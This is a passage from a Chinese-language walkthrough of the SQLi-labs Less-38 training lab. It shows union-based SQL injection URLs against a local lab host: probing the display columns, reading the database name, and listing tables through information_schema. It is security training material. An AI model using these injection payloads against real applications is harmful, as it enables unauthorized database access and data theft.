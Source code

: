 正常页面显示

![image-20220601102218720.png](assets/1706846040-75af789f69224c8cb05b092aa3ed9b47.png)

参数后面添加单引号报错，使用上面的联合查询走一遍

![image-20220601102419270.png](assets/1706846040-9c583567911c824fb878a7f8434d51a7.png)

看一下显示位

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,3%20--+
```

![image-20220601102604976.png](assets/1706846040-af1ae55740a3de4959070da70aa60bb4.png)

查询一下数据库表名

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,database()%20--+
```

![image-20220601102720653.png](assets/1706846040-ccf87fb9e59e968dacabcee56681b184.png)

查询一下表名，共有 4 个表

```plain
http://10.211.55.27/Less-38/?id=-1%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%20--+
```
